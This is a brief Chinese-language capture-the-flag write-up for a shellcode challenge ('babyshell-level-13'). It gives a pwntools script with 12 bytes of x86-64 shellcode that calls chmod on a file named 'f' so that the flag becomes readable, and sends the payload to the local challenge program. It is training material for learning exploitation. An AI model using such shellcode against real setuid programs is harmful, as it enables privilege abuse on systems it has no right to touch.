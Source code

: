 # 挑战简介
编写并执行shellcode来读取标志，但这次你只得到12个字节！

# 思路
模板可以改进一下，ret可以不要了，毕竟这些题的环境比较简单，不太需要ret操作，所以恰好凑够了12个字节

```
#!/usr/bin/python
from pwn import *
import struct
import os
cache_dir = '/tmp/.pwntools-cache'
if not os.path.exists(cache_dir):
    os.makedirs(cache_dir)

context(os='linux', arch='amd64', log_level='debug', cache_dir=cache_dir)

p = process('/challenge/babyshell-level-13')

p.recvuntil('Reading 0xc bytes from stdin.\n')

shellcode = asm('''
    push 0x66
    mov rdi, rsp
    mov sil, 4
    mov al, 90
    syscall
''')


# 为安全起见，打印完整的shellcode十六进制表示
print("Shellcode十六进制:", shellcode.hex())
print("Shellcode长度:", len(shellcode), "字节")

p.send(shellcode)

# 与shell交互
p.interactive()
p.recvall()
```

